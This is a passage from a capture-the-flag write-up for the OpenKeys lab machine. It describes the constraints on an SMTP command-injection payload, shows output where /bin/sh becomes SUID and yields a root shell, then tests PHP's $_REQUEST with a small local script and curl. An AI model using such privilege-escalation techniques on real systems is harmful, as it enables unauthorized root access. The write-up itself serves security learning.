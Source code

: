 I’m very limited in what kind of command injections I can do, the maximum length for the address is 64 characters, and any characters in `!#$%&'*?``{|}~` are escaped to a `:`. The simple payload above works nicely. After running it, I’ll Ctrl-c to kill the connection to SMTP, and now `/bin/sh` is SUID:

```

openkeys$ ls -l /bin/sh
-r-sr-xr-x  3 root  bin  625032 Oct 12  2019 /bin/sh

```

Running it returns a root shell:

```

openkeys$ /bin/sh
openkeys# 

```

### PHP $\_REQUEST

#### Local Script

Having spent my entire hacking life thinking that `$_REQUEST` checked only GET and POST parameters, I wanted to play more with this. I wrote a dumb little PHP program that will inspect and print `$_GET`, `$_POST`, `$_COOKIE`, and `$_REQUEST`:

```

<?php
echo "GET[test]: " . $_GET['test'] . "\n";
echo "POST[test]: " . $_POST['test'] . "\n";
echo "COOKIE[test]: " . $_COOKIE['test'] . "\n";
echo "REQUEST[test]: " . $_REQUEST['test'] . "\n";
?>

```

I then served it locally using the PHP built-in server:

```

root@kali# php -S 127.0.0.1:8888
PHP 7.3.15-3 Development Server started at Mon Jul 27 21:14:38 2020
Listening on http://127.0.0.1:8888
Document root is /media/sf_CTFs/hackthebox/openkeys-10.10.10.199
Press Ctrl-C to quit.

```

To make sure everything worked, from another terminal I tried sending just a GET parameter and just a POST parameter:

```

root@kali# curl 127.0.0.1:8888/test.php?test=get
GET[test]: get
POST[test]: 
COOKIE[test]: 
REQUEST[test]: get
root@kali# curl 127.0.0.1:8888/test.php -d 'test=post'
GET[test]: 
POST[test]: post
COOKIE[test]: 
REQUEST[test]: post

```
